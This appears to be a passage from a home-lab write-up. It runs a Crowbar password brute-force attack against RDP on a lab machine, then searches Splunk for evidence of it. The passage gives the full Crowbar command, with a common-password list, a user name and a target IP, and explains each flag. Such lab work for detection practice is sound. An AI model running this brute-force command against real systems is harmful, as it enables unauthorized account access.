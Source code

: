 #### Perform a brute force attack with Crowbar

1. Use the following command:

```
crowbar -b rdp -u adoe -C 2023-200_most_used_passwords.txt -s 192.168.10.5/32
```

- `-b` specifies the service.
- `-u` specifies the user.
- `-C` specifies the password list.
- `-s` specifies the target IP.

![Successful Brute Force Attack](images/VirtualBoxVM_h0STcLLYW5.png)

#### Check Splunk for evidence of the brute force attack

1. Use the search, `index=endpoint adoe`.
